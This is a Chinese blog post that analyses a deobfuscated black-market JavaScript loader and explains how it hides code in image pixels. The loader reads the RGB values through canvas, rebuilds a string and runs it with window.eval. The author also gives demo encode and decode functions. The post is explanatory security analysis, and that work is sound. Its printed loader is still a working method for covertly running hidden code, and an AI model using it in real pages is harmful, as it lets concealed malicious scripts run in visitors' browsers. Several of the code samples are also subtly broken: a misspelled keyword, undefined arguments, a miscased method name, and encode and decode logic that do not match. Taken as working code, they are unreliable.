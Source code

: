 ```yaml
---
title: "黑产代码解密--利用canvas加载代码"
author: Neal
description: ""
tags: [canvas,前端开发,安全]
categories: [web security]
date: "2018-08-12"
---
```


前段时间获取到黑产的一些代码，不得不感叹黑产的代码实在在写的是好得很，思路巧妙，环环相扣。不得不说，技术不好，黑产都做不了了。虽然分析了好多天，但是也只是一知半解。这里抽出一小部分来讲一下。二话不说，先上代码：

最初的代码是经过混淆的，代码经过整理如下：

```javascript
var createImgElement = function(urla, b) {
    var imgElement = document.createElement('img');
    var canvasEle = document.createElement('canvas');
    imgElement['crossOrigin'] = true;
    imgElement['onload'] = function() {
        canvasEle.width = this.width;
        canvasEle.height = this.height;
        var canvasContext = canvasEle.getContext('2d')
        canvasContext.drawImage(this, 0, 0, this.width, this.height);
        for (var canvasContext = canvasContext.getImageData(0, 0, this.width, this.height), 
        cancasDataLength = canvasContext.data.length, arr = [], i = 0;
            i < cancasDataLength;
            i += 4) {
            var code = canvasContext.data[i]
            var code1 = canvasContext.data[i + 1]
            var code2 = canvasContext.data[i + 2]
            canvasContext.data[i + 2].toString(16);
            1 == code1.length && (code1 = 0 + code1);
            1 == code2.length && (code2 = 0 + code2);
            0 != Number(code + code1 + code2) && arr.push(String.fromCharCode(Number(code + code1 + code2)));
        }
        window.eval(arr.join(''));
        console.log(arr.join(''));
        b && b();
    }
    imgElement.src = urla;
};
```

这段代码的主要目的是通过使用一个图片的连接，将这个图片加载到 canvas 中，再利用 canvas 去获取恶意代码并执行。通过图片去隐藏信息是一种常见的做法，这段就是通过 canvas 去执行图片中隐含的恶意代码。这段还支持传入回调函数，若回调函数存在，则执行回调函数。

在这里还利用一个计算机图像的知识，即像素中的 RGBA 值。Canvas 中的 ImageData 对象中每一个像素都包含了4个信息，即 RGBA 值。

* R - 红色 (0-255)
* G - 绿色 (0-255)
* B - 蓝色 (0-255)
* A - alpha 通道 (0-255; 0 是透明的，255 是完全可见的)

通过将代码转化为 ascii 码，将其隐藏在图片中的 RGB 信息中，黑产的 alpha 值都设置的为255。这样非常巧妙地就实现了代码信息和图片之间的转换。

这里涉及到一个 canvas 和图片之间的相互转化。下面提供两个相互转化的函数：

```javascript
var canvasToImg = fucntion(image) {
    var canvas = document.createElement('canvas');
    canvas.width = image.width;
    canvas.height = image.height;
    canvas.getContext('2d').drawImage(image, width, height);
    return canvas;
}

var imgToCanvas = function(canvas) {
    var image = new Image();
    image.src = canvas.toDataUrl('image/png');
    return image;
}
```

所以黑产也是通过将恶意代码放入到图片之中，从而以后可以通过 canvas 去读取恶意代码。下面写一个小的 demo 来复现这样一个简单的过程：

```javascript
var createImgByCode = function(codeStr, width, height) {
    var imgElement = document.createElement('img');
    var canvasEle = document.createElement('canvas');
    canvasEle.width = width;
    canvasEle.height = height;
    var canvasContext = canvasEle.getContext('2d');
    var data = new Array(4 * width * height);
    for (var i = 0; i < codeStr.length; i += 4) {
        var c = codeStr[i];
        var charCode = c.charCodeAt();
        var code = 0;
        var code1 = 16;
        var code2 = charCode - code1;
        data[i] = code;
        data[i + 1] = code1;
        data[i + 2] = code2;
        data[i + 3] = 255;
    }
    data = Uint8ClampedArray.from(data);
    var imgData = new ImageData(data, width, height);
    canvasContext.putImageData(imgData, 0, 0);
    imgElement.src = canvasEle.toDataURL("image/png");
    imgElement.width = width;
    imgElement.height = height;
    imgElement.crossOrigin = ' ';
    document.querySelector("#container").appendChild(imgElement);
}

var readCodeFromImg = function() {
    var img = document.querySelector('#container img');
    var width = 20;
    var height = 20;
    var canvas = document.createElement('canvas');
    canvas.width = width;
    canvas.height = height;
    var context = canvas.getContext('2d');
    context.drawImage(img, 0, 0, width, height);
    for (var context = context.getImageData(0, 0, width, height), 
        cancasDataLength = context.data.length, arr = [], i = 0;
        i < cancasDataLength;
        i += 4) {
        var code = context.data[i];
        var code1 = context.data[i + 1];
        var code2 = context.data[i + 2];
        1 == code1.length && (code1 = 0 + code1);
        1 == code2.length && (code2 = 0 + code2);
        0 != Number(code + code1 + code2) && arr.push(String.fromCharCode(Number(code + code1 + code2)))
    }
    console.log(arr.join(''));
}

createImgByCode("14324dfjkkdf432473724afjdfshjkdfkl53453453425dlkfklsdf", 20, 20);
readCodeFromImg();
```

`createImgByCode` 函数可以将任意字符串转化为一个图片，接着通过 canvas 去加载代码。不过这里面有一个问题，就是通过`createImgByCode` 函数生成的图片是一个 base64 图片，不能够直接被加载，这个图片必须被存储为 png 格式才能够通过另一个函数去加载代码。

以上。

欢迎搜索微信号 mad_coder 或者扫描二维码关注公众号：

![9tMvlT.jpg](https://s1.ax1x.com/2018/02/17/9tMvlT.jpg)

